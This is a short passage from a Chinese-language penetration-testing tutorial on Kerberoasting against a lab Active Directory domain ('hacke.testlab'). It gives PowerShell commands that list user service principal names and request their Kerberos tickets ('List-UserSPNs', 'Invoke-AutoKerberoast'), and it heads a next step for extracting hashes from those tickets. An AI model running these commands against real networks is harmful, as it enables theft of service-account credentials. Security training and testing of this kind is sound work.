 ```plain
List-UserSPNs -Domain "hacke.testlab"
```

[![](assets/1701606719-87d1d65a9ac8a14838c87ee80a3f67f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163202-4aab45fe-7e11-1.png)  
d、获取与林中唯一用户 SPN 相关联的所有票证

```plain
Invoke-AutoKerberoast
```

[![](assets/1701606719-017516bf49447ea6095ec6cbc85731d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163227-596c5704-7e11-1.png)  
e、从 Ticket 中提取 hash

